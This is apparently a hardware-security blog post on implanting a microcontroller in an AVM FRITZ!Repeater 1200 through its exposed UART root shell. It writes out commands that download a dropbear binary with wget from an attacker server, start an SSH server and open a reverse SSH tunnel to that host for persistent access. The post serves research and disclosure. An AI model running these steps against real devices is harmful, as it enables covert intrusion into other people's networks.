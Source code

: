 ```yaml
---
layout: post
title: "Hardware Implanting Wifi Repeaters"
date:   2025-06-24 16:55:42 +0200
categories: [blog]
tags: [hardware-security, cybersecurity, embedded-systems, hardware-implant, security-research]
---
```

## Introduction

In 2016, while tinkering with an AVM 1750E repeater at home, I discovered something interesting: the device had exposed UART pins on its PCB, granting direct access to a root shell. Curious about the implications, I devised a hardware implant concept that, when installed on the device, would allow an attacker to open a reverse SSH tunnel, gaining persistent remote access to the device and potentially the entire network. 

![AVM Repeater 1200 PCB](/assets/avm_repeater_1750E_implant.jpg)
_<sub>My original hardware implant in the Fritz!Repeater 1750E.</sub>_

At the time, I was unaware that Joe FitzPatrick was presenting a talk at Black Hat titled "The Tao of Hardware: The Te of Implants" ([paper here](https://www.blackhat.com/docs/us-16/materials/us-16-FitzPatrick-The-Tao-Of-Hardware-The-Te-Of-Implants-wp.pdf)). His presentation explored the same type of attack vector: using hardware implants to exploit security vulnerabilities in embedded consumer devices. However, I never published my findings, nor was I certain of their relevance until much later.

When the infamous Bloomberg article "[The Big Hack](https://www.bloomberg.com/news/articles/2018-10-04/the-big-hack-the-software-side-of-china-s-supply-chain-attack)" surfaced in 2018, detailing alleged hardware implants found in server supply chains, I was reminded of my earlier project. Although I lacked the time to revisit it due to university commitments, the concept remained in the back of my mind.  

Now, I’m revisiting this idea using a more recent AVM model: the FRITZ!WLAN Mesh Repeater 1200. I no longer have access to the original 1750E, but the 1200 shares a similar construction and serves as a suitable platform to continue exploring the concept. Beyond simply recreating the original implant, I also want to see whether this kind of attack is still possible on newer hardware. This article documents that process — from the updated design to its broader implications for device security.

## Step 1: Initial Exploration

### Opening the Device

The AVM FRITZ!WLAN Mesh Repeater 1200 is surprisingly easy to open. By removing four Torx screws on the back, the enclosure simply comes apart. Inside, my attention was immediately drawn to an unpopulated, unmarked 4-pin connector, which is a classic indicator of a UART interface. These types of headers are often used for development or debugging purposes.
![AVM Repeater 1200 PCB](/assets/avm_repeater_1200_pcb_annotated.jpg)

_<sub>The AVM FRITZ!Repeater 1200 with its casing removed. UART pins are visible on the main PCB.</sub>_

### Identifying UART Pins

Using a multimeter, I identified the pinout of the 4-pin connector:
- One pin was *GND*,
- Another had a *+3.3V* supply,
- The remaining two were likely *RX* and *TX*.

I connected a USB UART dongle to the suspected RX, TX, and GND pins and powered up the device. I alway connect RX and TX correctly on the frist try. Every time. Always. Here's an excerpt of the boot log:

```

(AVM) EVA Revision: 1.10731
(C) Copyright 2018 AVM Date: Dec 16 2019 Time: 15:08:36 (0) 3 0x0-0x46409

[NAND:] 128MB MACRONIX 2048 Pagesize 128k Blocksize 1024 Blocks HW
[SYSTEM:] CortexA9 

Eva_AVM >NAND corrected 1 @ page: 16D5
NAND corrected 1 @ page: 1A59
.......................................................................[    0.000000][0] Booting Linux on physical CPU 0x0
[    0.000000][0] Linux version 4.4.271 (kbuild-team@core.avm.de) (gcc version 5.5.0 (Buildroot 2020.02.1-g758ac3ed) ) #1 SMP PREEMPT 2024-01-11
[    0.000000][0] CPU: ARMv7 Processor [410fc075] revision 5 (ARMv7), cr=10c5387d
[    0.000000][0] CPU: PIPT / VIPT nonaliasing data cache, VIPT aliasing instruction cache
[    0.000000][0] Machine model: AVM FRITZ!Repeater 1200
[    0.000000][0] Memory policy: Data cache writealloc
[    0.000000][0] [fw-info] Version 07.58 buildnr=111616 buildtype=1
[    0.000000][0] [module-mem] Use 0x81000000-0x81012fff (mapped at c1000000-c1012fff) for 1 modules
[    0.000000][0] [module-mem] Using whitelist, set default strict_mode=1
[    0.000000][0] PERCPU: Embedded 11 pages/cpu @cfdb5000 s15756 r8192 d21108 u45056
...
```

After the device finished booting, I tested for input capabilities. Success! I had root access to the device. Here's a snippet of the UART output:

```
BusyBox v1.29.3 () built-in shell (ash)

ermittle die aktuelle TTY
tty is "/dev/ttyMSM0"
unbekanntes Terminal
disable start/stop characters and flowcontrol
# id
uid=0(root) gid=0(root)
#
```

## Step 2: Establishing Remote Access via Reverse SSH Tunnel

Having root access through UART is useful, but the real value comes from enabling persistent remote access. To achieve this, I needed to set up a reverse SSH tunnel. Unfortunately, the embedded Linux OS lacked an SSH client. 

### Finding an SSH Client

On my original 2016 project, I used a dropbear binary for MIPS, which I found hosted online. However, the AVM FRITZ!WLAN Mesh Repeater 1200 runs on an ARM Cortex-A9 processor, so I needed an armhf version. Since the device’s wget utility doesn’t support SSL handshakes, I hosted the binaries on my own server. Here’s how I downloaded and extracted the dropbear package:

```bash
cd tmp
wget http://<attacker-server-ip>/dropbear-v2020.81-arm-none-linux-gnueabi-static.tgz
gzip -d dropbear-v2020.81-arm-none-linux-gnueabi-static.tgz
tar -xf dropbear-v2020.81-arm-none-linux-gnueabi-static.tar
```

### Creating the Reverse Shell

To set up the reverse SSH tunnel, I first prepared the repeater device to initiate a connection back to our attacker server, which is listening for incoming tunnels. This allows us to bypass any firewall or NAT restrictions on the repeater's network by having it reach out to us.

Here are the commands I ran on the repeater device, along with explanations for each step:

```bash
# Create a directory to store the SSH host keys securely
mkdir -p /tmp/dropbear/

# Generate a new ED25519 SSH host key for Dropbear and save it in the created directory
./dropbearmulti dropbearkey -t ed25519 -f /tmp/dropbear/dropbear_ed25519_host_key

# Start the Dropbear SSH server on port 22 using the generated host key
./dropbearmulti dropbear -p 22 -r /tmp/dropbear/dropbear_ed25519_host_key

# Establish a reverse SSH tunnel back to the attacker server:
# -y: accept remote host keys automatically
# -f: run in the background after authentication
# -N: do not execute remote commands (tunnel only)
# -T: disable pseudo-terminal allocation
# -R 54149:localhost:22: forward port 54149 on attacker server to port 22 on the repeater (localhost)
./dropbearmulti ssh -y -f -N -T -R 54149:localhost:22 user@<attacker-server-ip>
```

On our attacker server we can now simple establish the connection using:
```bash
ssh -p 54149 root@localhost
```
At this point, I had remote access to the repeater and, by extension, the local network it was connected to.


## Step 3: Designing the Persistent Hardware Implant

While the reverse SSH tunnel worked seamlessly, it was limited by the device’s read-only filesystem. The downloaded client would not persist after a reboot. To overcome this, I designed a hardware implant that automates the process upon every boot. This also makes the attacke more resilient to software updates, since it operates independently of the target’s internal software and filesystem.

### Hardware Selection
![XIAO RP2350](/assets/xiao_rp2350.jpg)  
For the updated implant, I chose the Seed Studio XIAO RP2350 module. The Raspberry RP2350 is my current go-to microcontroller for small projects. It’s well documented, powerful, and integrates well with Rust. Thanks to its tiny form factor, the XIAO RP2350 is ideal for embedding discreetly into existing hardware without disrupting the device’s appearance or functionality. The RP2350 communicates with the repeater via the UART interface and executes the commands necessary to set up the reverse shell.

### Implant Design and Installation

The implant itself is pretty simple. The 3.3V supply pin on the UART header powers the implant. The RX and TX pins interface with the repeater’s UART shell.

![XIAO RP2350](/assets/rp2350_implant.png)
_<sub> XIAO RP2350 implant with press-fit connector </sub>_

Using press-fit pin headers, there’s no need to solder. The implant fits neatly inside the repeater’s housing, requiring only a Torx screwdriver for installation or removal.

![Installed Implant](/assets/rp2350_implant_installed.jpg)
_<sub> Our hardware implant installed in the repeater </sub>_

You can find the firmware source code and schematic on GitHub: github.com/zuernerd/avm-repeater-implant

## Conclusion
This implant demonstrates how trivial it is to achieve persistent access using a low-cost microcontroller and a few exposed pins. With minimal effort and no soldering, an attacker can embed a fully automated payload directly into consumer hardware, bypassing filesystem protections and surviving reboots or software updates.

The point isn’t just about reverse shells or specific tools. It’s about physical access and how much power it grants. UART headers, debug consoles, and other leftover development interfaces can turn a $5 chip into a persistent backdoor.

Sure, the attack has practical constraints: it requires physical access, and in more paranoid environments, a reverse SSH connection might get flagged. But in many situations, it’s more than enough.

This is not hypothetical — it’s practical, replicable, and entirely overlooked in many deployed systems.
Honestly, this made me think twice about buying used network gear 😉.  

---

**Disclaimer:** This article is for educational purposes only. Do not attempt to replicate these actions on devices without proper authorization. Please behave.

--- 
